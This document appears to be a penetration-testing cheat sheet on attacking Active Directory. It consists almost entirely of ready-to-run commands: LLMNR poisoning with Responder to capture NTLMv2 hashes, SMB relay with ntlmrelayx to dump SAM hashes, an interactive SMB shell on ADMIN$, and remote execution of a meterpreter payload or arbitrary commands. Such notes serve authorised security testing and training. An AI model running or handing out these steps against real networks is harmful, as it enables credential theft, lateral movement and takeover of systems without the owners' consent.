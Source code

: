 ### Active Directory

#### LLMNR Poisoning
```
# Linked Local Multi-cast Name Resolution Poisoning using Impacket tool, Responder.
# Run this first thing, even before as it will capture generated traffic.

# Capture NTLMv2 Hash with Responder. Start listening for events
responder -I eth0 -rdw
```

#### SMB Relay. User must be admin on both machines.
```
# SMB signing must be disabled.
nmap --script=smb2-security-mode.nse -p445 <ip>

# Set /usr/share/responder/Responder.conf SMB=Off HTTP=Off. Then run
responder -I eth0 -rdw

# Add IP's from nmap to targets.txt. Run the relay and wait for an event to happen
# It will return the SAM hashes
python ntlmrelayx.py -tf targets.txt -smb2support
```

#### SMB Relay to an SMB Shell
```
# As above, except for ntlmrelayx
python ntlmrelayx.py -tf targets.txt -smb2support -I

# Once the event is triggered, an interactive SMB shell will be created at an ip eg. 127.0.0.1:11000
nc 127.0.0.1 11000

# Can then use SMB share commands to interact
help
shares
use ADMIN$
ls
```

#### Other SMB Relay ntlmrelayx options
```
# Create a meterpreter shell and execute
python ntlmrelayx.py -tf targets.txt -smb2support -e payload.exe

# Execute a command
python ntlmrelayx.py -tf targets.txt -smb2support -c "whoami"
```
